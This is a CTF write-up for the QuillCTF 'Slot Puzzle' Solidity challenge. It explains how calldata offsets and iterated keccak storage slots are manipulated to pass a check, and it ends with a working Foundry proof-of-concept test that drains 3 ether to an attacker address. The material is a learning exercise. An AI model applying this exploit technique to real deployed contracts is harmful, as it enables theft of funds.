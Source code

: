 ```yaml
---
title: QuillCTF - Slot Puzzle
description: 2023 | Hard | Solidity Security
tags:
    - smart contract
    - storage layout
---
```


## Objective of CTF

> Your purpose is just to call the deploy() function to recover the 3 ether.

[QuillCTF Challenges - Slot Puzzle](https://quillctf.super.site/challenges/quillctf-challenges/slot-puzzle)

## Vulnerability Description

- Only the instance of SlotPuzzle deployed from SlotPuzzleFactory can call the `payout()` function to transfer ether and we need to pass the check in `ascertainSlot()` to let SlotPuzzle call `payout()`
- Calculate the slot iteratively according to `keccak256(key, slot + (is ghostStore ? 1 : 0))` pattern
- We need three recipients, all pointing to hacker, to recover 3 ether since each `payout()` can only transfer 1 ether
- The difficult part is to decide `offset` > <
  - `params.slotKey` is copy from calldata to memory. `bytes memory slotKey` stores the slotKey offset in memory, here is 0x80
  - The offset of slot is calculated using `add(slotKey, calldataload(offset))`. So, the value of `offset` should be the offset of target value (i.e. slot.offset - slotKey) in the calldata. We can make use of `Parameters.slotKey` to pass that value

    Offset(Hex)|Calldata Layout
    -|-
    04|offset of struct Parameters
    24|totalRecipients, 3
    44|offset
    64|offset of the Recipients array (relative to struct offset)
    84|offset of slotKey (relative to struct offset)
    a4|size of the Recipients array
    c4|recipients[0].account
    ...|...
    184|size of slotKey
    1a4|slot.offset - 0x80
    1c4|slot

## Proof of Concept

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "forge-std/Test.sol";

import { SlotPuzzle } from "src/SlotPuzzle.sol";
import { SlotPuzzleFactory } from "src/SlotPuzzleFactory.sol";
import { Parameters, Recipients } from "src/interface/ISlotPuzzleFactory.sol";

contract SlotPuzzleTest is Test {
    SlotPuzzle public slotPuzzle;
    SlotPuzzleFactory public slotPuzzleFactory;
    address hacker;

    function setUp() public {
        slotPuzzleFactory = new SlotPuzzleFactory{value: 3 ether}();
        hacker = makeAddr("hacker");
    }

    function calc(uint256[8] memory keys, uint256 slot) internal pure returns (uint256) {
        for (uint8 i = 0; i < 8; i ++) {
            slot = uint256(keccak256(abi.encodePacked(keys[i], slot)));
            if (i % 2 == 1) slot += 1; // move to variable map
        }
        return slot - 1; // back to variable hash
    }

    function testHack() public {
        vm.startPrank(hacker, hacker);
        assertEq(address(slotPuzzleFactory).balance, 3 ether, "weth contract should have 3 ether");

        // solution
        Recipients[] memory recipients = new Recipients[](3);
        recipients[0] = Recipients({
            account: hacker,
            amount: 1 ether
        });
        recipients[1] = recipients[0];
        recipients[2] = recipients[0];

        bytes32 slot = keccak256(
            abi.encodePacked(calc(
                [
                    uint256(uint160(hacker)), block.number,
                    block.timestamp, uint256(uint160(address(slotPuzzleFactory))),
                    block.prevrandao, uint256(uint160(address(block.coinbase))),
                    block.chainid, uint256(uint160(uint256(blockhash(block.number - block.basefee))))
                ],
                1
            ))
        );

        slotPuzzleFactory.deploy(
            Parameters({
                totalRecipients: 3,
                offset: 0x1a4,  // offset to the value 0x144
                recipients: recipients,
                slotKey: abi.encode(0x144, slot)
                // 0x144 = slot.offset(0x1c4) - 0x80
            })
        );

        assertEq(address(slotPuzzleFactory).balance, 0, "weth contract should have 0 ether");
        assertEq(address(hacker).balance, 3 ether, "hacker should have 3 ether");

        vm.stopPrank();
    }
}
```